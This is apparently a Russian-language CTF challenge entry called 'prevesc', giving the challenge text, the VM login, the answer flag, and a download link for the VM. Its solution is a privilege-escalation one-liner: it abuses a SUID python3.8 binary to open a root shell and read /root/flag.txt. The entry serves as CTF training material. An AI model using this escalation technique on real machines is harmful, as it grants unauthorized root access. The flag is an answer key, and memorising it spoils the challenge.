 # Название: 
prevesc
# Категория: 
admin
# Сообщение: 
У нас есть виртуальная машина хакера, но на ней ничего полезного мы не нашли, поможешь нам? Вот данные hacker:hacker123
 
# Флаг: 
yetiCTF{u_kn0w_su1d}

# Решение: 
SUID на фале pyhon3.8 python3 -c 'import os; os.execl("/bin/sh", "sh", "-p")' cat /root/flag.txt

# Доп данные:
Ссылка на vm: https://drive.google.com/file/d/1AMqI189HGrsghhOHghgjY6vdhtThqVdY/view?usp=sharing
